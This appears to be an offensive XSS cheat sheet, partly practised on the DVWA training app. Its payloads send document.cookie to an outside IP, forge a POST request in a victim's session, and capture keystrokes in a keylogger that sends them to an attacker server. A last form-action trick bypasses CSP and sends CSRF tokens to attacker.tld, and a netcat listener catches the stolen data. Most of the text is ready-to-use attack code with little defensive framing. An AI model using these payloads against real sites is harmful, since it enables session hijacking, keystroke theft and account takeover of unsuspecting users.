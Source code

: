# XSS

## **XSS Cookie Steal**

This works when the url query is DOM loaded in the page

Create a image object in javascript and will be loaded with the output with the document cookie query

```bash
http://localhost:81/DVWA/vulnerabilities/xss_r/?
name=
<script>
new  Image().src="http://192.168.149.128/bogus.php?output="+document.cookie;
</script>
```

**You can catch with a webhook and netcat**

- **Webhook: `webhook.site`**
- **netcat: `nc -lvp 80`**

## Anti-bypass session hijack

I**f the server implements this you can't steal the victim's session**

- When the cookie is set the response request with set-cookie
- When the cookie is HttpOnly

**You can steal the session when the cookie is set on the request of the browser**

**Anti-Anti-bypass the HttpOnly :)**

- If the cookie is HttpOnly you can't steal the cookies but you can execute actions in the account of the user
- If you send a request to the server with the xss script injection the session will be autenticated in the victin browser

**Example:**

```html
<script>
	var xhr = new XMLHttpRequest();
	xhr.open('POST','http://localhost:81/DVWA/vulnerabilities/xss_s/',true);
	xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
	xhr.send('txtName=xss&mtxMessage=xss&btnSign=Sign+Guestbook');
</script>
```

- This script send a POST request and will post a message in the account of the user

## XSS Keylogger

Include this script in another website and import in the XSS attacked site

**`<script src='attackersite'></script>`**

```jsx
var l = "";   // empty string to concatenate keys onto
document.onkeypress = function (e) {
        l += e.key;
        console.log(l);  //Test line
        var req = new XMLHttpRequest();
        req.open("POST","<server goes here>", true); 	// ADD URL HERE!
        req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
        req.send("data=" + l);
}
```

## **Bypass form action with Reflected XSS**

**Fucking CSP implementation**

-Work when the action of the form is specified on the URL query

When the victim clicks on the injected button the form will be sent to the attacker webhook on the href in the button

-The attacker can steal the victim's CRSF token

**Example:**

```bash
http://bugbounty.se/csp_bypass.php?
xss=<input value="CLICK ME FOR POC" type="submit" formaction="" form="subscribe" formmethod="get" /><input type="hidden" name="xss" form="subscribe" value="<link rel='subresource' href='http://attacker.tld/link-subresource'>"/>
```

**The values will be sent to: 'http://attacker.tld/link-subresource'**

**Google:**

**`"<link rel = 'subresource' href = ' http: //attacker.tld '>"`**

**Firefox:**

**`"<a href = ' http: //attacker.tld ' > "`**

(The downside being that the user has to click twice times)